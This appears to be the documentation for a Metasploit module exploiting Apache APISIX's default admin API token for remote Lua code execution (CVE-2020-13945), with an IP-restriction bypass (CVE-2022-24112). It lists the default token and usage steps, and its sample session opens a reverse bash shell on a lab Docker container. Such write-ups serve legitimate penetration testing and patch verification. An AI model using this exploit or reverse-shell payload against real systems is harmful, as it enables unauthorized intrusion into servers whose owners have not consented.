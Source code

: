 ## Vulnerable Application

A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution.

The Apache APISIX has a default API token `edd1c9f034335f136f87ad84b625c8f1` defined at `conf/config.yaml` and in its default configuration
has doesn't come with the `ip-restriction` plugin enabled, what allow any user to add a new route in its default confiuration.
By leveraging the feature `script` added in the 2.x version an user can add a route which leads to the remote LUA code execution
(CVE-2020-13945). Even if there is ip-restriction enabled, this exploit relay on the vulnerability CVE-2022-24112 to circuvent that
restriction.

This module was tested using a vulnerable docker container as available on the [vulnhub ](https://github.com/vulhub/apisix/CVE-2020-13945/docker-compose.yml) project.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/apache_apisix_api_default_token_rce`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/apisix/admin/routes`).

### API_KEY (required)

The admin API KEY for APISIX (Default: `edd1c9f034335f136f87ad84b625c8f1`).

### ALLOWED_IP (required)

An IP address that is knew to be in the allowed list (Default: `127.0.0.1`).

## Scenarios
```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run rhosts=127.0.0.1 rport=9080 lhost=docker0 lport=4444

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 127.0.0.1:9080
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.18.0.4:48162 ) at 2022-02-28 18:32:50 +0100
id

uid=99(nobody) gid=99(nobody) groups=99(nobody)
uname -a
Linux 58f5aba16de9 5.16.8-arch1-1 #1 SMP PREEMPT Tue, 08 Feb 2022 21:21:08 +0000 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 127.0.0.1 - Command shell session 1 closed.
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > 
```

.h3 Version and OS
This module has been tested successfully on Apache APISIX 2.11.0.
